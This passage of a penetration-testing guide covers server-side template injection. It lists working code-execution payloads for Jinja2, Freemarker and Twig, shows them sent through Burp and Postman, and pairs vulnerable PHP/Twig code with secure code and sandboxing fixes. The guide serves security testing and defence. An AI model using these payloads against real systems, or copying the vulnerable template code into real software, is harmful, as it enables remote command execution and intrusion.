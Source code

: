 **Remediation**:
- Sanitize input:
  ```python
  user_input = escape(user_input)
  ```
- Use static templates:
  ```python
  template = Template("Hello, {{ name }}")
  ```

**Tip**: Save template engine evidence in a report.

### 3. Test for Code Execution

**Objective**: Check if template injection allows remote code execution.

**Steps**:
1. Inject code execution payloads:
   - Test (Jinja2): `{{''.__class__.__mro__[1].__subclasses__()[407]('whoami', shell=True, stdout=-1).communicate()}}`
   - Use Burp:
     ```http
     GET /profile?name={{''.__class__.__mro__[1].__subclasses__()[407]('whoami',shell=True,stdout=-1).communicate()}} HTTP/1.1
     Host: example.com
     ```
2. Check responses:
   - Look for command output (e.g., `whoami` result).
   - Test engine-specific payloads (Twig, Freemarker, ERB).
3. Escalate payloads:
   - Try: `<#assign ex='freemarker.template.utility.Execute'?new()>${ex('whoami')}`.
4. Use Postman for APIs:
   - Send: `{"name": "{{''.__class__.__mro__[1].__subclasses__()[407]('whoami',shell=True,stdout=-1).communicate()}}"}`.

**Example Vulnerable Code (PHP/Twig)**:
```php
$template = new Twig\Environment(new Twig\Loader\ArrayLoader(['page' => $_GET['template']]));
echo $template->render('page');
```
Test: `?template={{_self.env.registerUndefinedFilterCallback('exec')(_self.env.getFilter('whoami'))}}`
Result: Executes `whoami`.

**Example Secure Code (PHP/Twig)**:
```php
$loader = new Twig\Loader\FilesystemLoader('templates');
$twig = new Twig\Environment($loader, ['autoescape' => 'html']);
echo $twig->render('page.html', ['name' => htmlspecialchars($_GET['name'])]);
```
Test: No execution.

**Remediation**:
- Disable dangerous functions:
  ```python
  env = Environment(extensions=[]) # No unsafe extensions
  ```
- Sandbox templates:
  ```php
  $twig->setSandboxPolicy(new Twig\Sandbox\SecurityPolicy());
  ```
